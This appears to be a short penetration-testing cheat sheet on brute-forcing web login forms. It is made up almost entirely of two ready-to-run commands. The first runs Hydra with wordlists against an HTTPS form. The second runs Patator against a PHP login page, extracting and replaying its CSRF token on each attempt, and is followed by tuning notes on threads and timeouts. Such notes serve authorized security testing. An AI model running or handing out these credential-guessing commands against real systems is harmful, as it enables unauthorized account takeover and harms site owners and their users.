 # Brute Force

## Authentication forms using Hydra

```bash
hydra \
-L /usr/share/dirb/wordlists/small.txt \
-P /usr/share/dirb/wordlists/small.txt \
$RHOST \
https-post-form \
"/cdn-cgi/login/index.php:username=^USER^&password=^PASS^:failed" \
-o hydra-result.txt \
-f \
-V
```

## Authentication forms with CSRF using Patator

```bash
patator \
--threads=1 \
--timeout=5 \
http_fuzz \
method=POST \
url="http://$RHOST/login.php" \
body='username=admin&password=FILE0&user_token=_CSRF_' \
0=/usr/share/wordlists/seclists/Passwords/probable-v2-top12000.txt \
before_urls="http://$RHOST/login.php" \
before_egrep="_CSRF_:<input type='hidden' name='user_token' value='(\w+)' />" \
-x ignore:fgrep='incorrect'
```

* `--threads=1` we ensure that the CSRF is not corrupted, but we got a very slow process
* `--timeout=5` avoid that request fails for random sleeps on server during login.